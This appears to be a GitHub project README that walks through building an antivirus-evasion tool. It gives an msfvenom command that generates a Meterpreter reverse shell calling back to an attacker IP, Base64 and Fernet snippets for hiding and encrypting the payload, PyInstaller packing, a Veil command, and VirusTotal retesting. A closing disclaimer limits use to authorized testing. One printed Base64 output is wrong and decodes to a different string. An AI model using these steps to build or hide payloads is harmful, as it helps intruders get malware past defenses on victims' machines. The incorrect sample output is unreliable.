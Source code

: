 ## Feel free to contact me through the following profiles:

 ## [Linkedin](https://www.linkedin.com/in/andrespds/) | [GitHub](https://github.com/tobproject) | [Instagram](https://www.instagram.com/tob_project/)










# 77: Antivirus Bypass Tool with Obfuscation Techniques

## Project Objective
The purpose of this project is to create a tool that implements obfuscation techniques to evade antivirus detection. This can be achieved by modifying the malware or payload code to hide its behavior and make it less detectable by antivirus engines. This "bypass" process allows more effective penetration testing and improves understanding of how antivirus systems detect and block threats.

## Steps to Develop the Tool

### 1. Payload Selection and Environment Setup
- **Payload Selection:** Create or select a payload to run on the victim system. A common example is a reverse shell that connects back to the attacker's machine and allows remote command execution.  
- **Testing Environment:** Use virtual machines to create a controlled environment where you can safely perform tests. Ensure you have a victim machine (e.g., Windows VM) and an attacker machine (e.g., Kali Linux or Parrot OS).

### 2. Payload Preparation
- **Using Metasploit Framework:**  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe
```
This generates `payload.exe` which attempts to connect to your attacker's IP at port 4444.  
- **Alternative:** You can also create a simple reverse shell in Python, but using Metasploit simplifies the process.

### 3. Code Obfuscation Techniques
- **String Obfuscation:** Hide IP addresses, command names, or network protocols using Base64 or similar techniques.  
```python
import base64
original_string = "reverse_tcp"
encoded_string = base64.b64encode(original_string.encode('utf-8')).decode('utf-8')
print(encoded_string)  # Output: "cmV2ZXJzZXRfY3Rw"
```
- **Payload Polymorphism:** Generate unique payloads each time to avoid antivirus detection. Alter code structure while keeping functionality.  
- **Dynamic Encryption/Decryption:** Encrypt the payload and decrypt it in memory during execution.  
```python
from cryptography.fernet import Fernet
key = Fernet.generate_key()
cipher_suite = Fernet(key)
cipher_text = cipher_suite.encrypt(b"reverse_shell_payload")
decrypted_payload = cipher_suite.decrypt(cipher_text)
```

### 4. Binary Obfuscation and Execution
- **PyInstaller Compilation:**  
```bash
pyinstaller --onefile --clean --distpath dist payload.py
```
- **Additional Binary Obfuscation:** Use tools like CFF Explorer to modify the binary and add extra layers of obfuscation.

### 5. Antivirus Bypass
- **Avoid Signature Detection:** Modify code strings and structures to prevent matching known antivirus signatures.  
- **Frameworks like Veil:** Create obfuscated payloads with:  
```bash
veil-evasion -p python/meterpreter_reverse_tcp
```

### 6. Detection Analysis and Improvement
- **Testing Against Antivirus:** Use VirusTotal to check detection. Adjust code if detected and retest.

### 7. Reporting and Improvements
- Document techniques, results, and potential improvements for future payload versions.

## Ethical and Legal Considerations
This project should only be done for educational purposes in controlled and ethical environments. Antivirus bypass techniques must only be used in authorized penetration testing, not for malicious purposes.

## Conclusion
Creating an antivirus bypass tool with obfuscation techniques is an advanced project that requires deep understanding of antivirus systems, detection methods, obfuscation techniques, and binary analysis. It enhances skills in programming, ethical hacking, and security evasion techniques.
